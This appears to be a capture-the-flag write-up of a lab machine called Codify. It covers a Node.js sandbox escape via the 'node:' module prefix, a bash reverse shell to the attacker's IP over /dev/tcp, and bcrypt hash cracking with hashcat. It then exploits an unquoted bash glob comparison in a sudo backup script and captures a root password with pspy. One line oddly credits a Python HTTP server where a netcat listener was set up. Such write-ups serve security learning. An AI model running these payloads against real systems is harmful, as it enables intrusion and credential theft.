

Exploitation Summary
Exploitation process: The target machine was running a Node.js code editor web application that attempted to sandbox code execution by blocking certain dangerous modules like child_process, fs, and dynamic imports. However, by using the explicitly allowed node: protocol prefix to import core modules, I was able to bypass these restrictions and gain remote code execution as the svc user. After obtaining initial access, I discovered an SQLite database containing a bcrypt password hash for the user joshua, which I successfully cracked. With SSH access as joshua, I identified sudo permissions to run a MySQL backup script as root. This script had a critical vulnerability: it used an unquoted bash variable comparison ([[ $DB_PASS == $USER_PASS ]]), allowing wildcard pattern matching to bypass the password check. By exploiting this vulnerability and monitoring running processes with pspy, I captured the root MySQL password that was passed as a plaintext command-line argument, which happened to be the same as the root user's password, granting me full system access.
Technologies/Exploits: Node.js sandbox bypass via node: protocol prefix, SQLite database enumeration, bcrypt hash cracking, bash wildcard pattern matching in unquoted variable comparisons, process monitoring for credential extraction.
Initial Reconnaissance
I begin with an nmap scan to identify open ports and services running on the target machine:

The scan reveals several services, including SSH on port 22 and HTTP services on ports 80 and 3000. I add codify.htb to my /etc/hosts file to resolve the domain properly.
Web Application Analysis - Node.js Code Editor
Navigating to the web application, I discover it's a Node.js code editor that allows users to test and run Node.js code in a sandboxed environment. The application advertises security features that block potentially dangerous modules and operations:
- The
child_processmodule (used for executing system commands) - The
fsmodule (used for filesystem operations) - Dynamic imports that could load arbitrary modules
These restrictions are designed to prevent code execution and sandbox escapes. However, security implementations in sandboxed environments often have subtle bypasses.
Initial Access - Bypassing the Node.js Sandbox
After experimenting with the code editor, I discover a critical bypass. While the application blocks traditional module imports like require('child_process'), it doesn't properly restrict the use of the node: protocol prefix when importing core Node.js modules.
The node: prefix is a Node.js feature that explicitly specifies that a module is a core Node.js module. By using require('node:child_process') instead of require('child_process'), I can bypass the sandbox restrictions:

I craft a reverse shell payload using this bypass technique:
const { exec } = require('node:child_process');
exec('bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"', (err, stdout, stderr) => {
if (err) console.error(err);
else console.log(stdout);
});Before executing the payload, I set up a netcat listener on my attacking machine:
sudo nc -lvnp 443When I execute the code in the editor, my Python HTTP server receives the connection attempt, and I successfully obtain a reverse shell as the svc user:
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.239] 52846
bash: cannot set terminal process group (1234): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~/app$Post-Exploitation Enumeration
After gaining initial access, I perform enumeration to identify potential privilege escalation vectors. First, I check for listening ports on the local system:
ss -tulnThe output reveals several interesting locally-bound services:
tcp LISTEN 0 4096 127.0.0.1:3306
tcp LISTEN 0 4096 127.0.0.1:36823Port 3306 indicates that MySQL is running locally, which is worth investigating for potential credentials or sensitive data.
Discovering the MySQL Backup Script
While exploring the filesystem, I discover an interesting script at /opt/scripts/mysql-backup.sh:
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo
if [[ $DB_PASS == $USER_PASS ]]; then
/usr/bin/echo "Password confirmed!"
else
/usr/bin/echo "Password confirmation failed!"
exit 1
fi
/usr/bin/mkdir -p "$BACKUP_DIR"
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
for db in $databases; do
/usr/bin/echo "Backing up database: $db"
/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done
/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'This script is particularly interesting because it reads the root MySQL password from /root/.creds and compares it with user input. However, I notice a critical vulnerability in the comparison logic that I'll exploit later.
SQLite Database Discovery
Continuing my enumeration, I discover an SQLite database in the web application directory at /var/www/contact/tickets.db:
svc@codify:/var/www/contact$ sqlite3 tickets.db
SQLite version 3.37.2
Enter ".help" for usage hints.
sqlite> .tables
tickets users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2The database contains a users table with credentials for a user named joshua. The password is stored as a bcrypt hash: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
Lateral Movement - Cracking the bcrypt Hash
I save the hash to a file and use hashcat to crack it. Bcrypt hashes use mode 3200 in hashcat:
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txtAfter some time, hashcat successfully cracks the password:
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1With these credentials (joshua:spongebob1), I can now SSH into the machine as the joshua user and retrieve the user flag.
Privilege Escalation - Sudo Permissions Analysis
After logging in as joshua, I check for sudo permissions:
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User joshua may run the following commands on codify:
(root) /opt/scripts/mysql-backup.shThe user joshua can execute the MySQL backup script I discovered earlier as root. Now I need to analyze the script for vulnerabilities.
Understanding the Bash Comparison Vulnerability
Looking at the password comparison in the script:
if [[ $DB_PASS == $USER_PASS ]]; then
/usr/bin/echo "Password confirmed!"
else
/usr/bin/echo "Password confirmation failed!"
exit 1
fiThe critical vulnerability here is that the variables are not quoted in the comparison. In bash, when variables are unquoted in a [[ ]] comparison, they undergo pattern matching (globbing) rather than literal string comparison. This means I can use wildcard characters like * to match any string.
If I enter * as the password, the comparison becomes [[ $DB_PASS == * ]], which will always evaluate to true because the asterisk matches any string, regardless of what the actual password is.
Exploiting the Vulnerability with Process Monitoring
While the wildcard bypass allows me to execute the script, I still need to obtain the actual root password. The key observation is that when the script runs MySQL commands, it passes the password as a command-line argument using the -p flag:
/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;"Command-line arguments are visible in the process list, which means I can capture the password by monitoring running processes. I upload pspy, a tool that monitors Linux processes without requiring root privileges, to the target machine.
I start pspy in one terminal session and execute the backup script with the wildcard bypass in another:
joshua@codify:/opt/scripts$ sudo ./mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!Meanwhile, pspy captures the MySQL command with the password in plaintext:
CMD: UID=0 PID=2964 | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;I've successfully captured the root MySQL password: kljh12k3jhaskjh12kjh3
Root Access
With the captured password, I attempt to switch to the root user:
su root
Password: kljh12k3jhaskjh12kjh3The password works! It turns out the root system password is the same as the MySQL root password. I now have full root access to the system and can retrieve the root flag, completing the machine.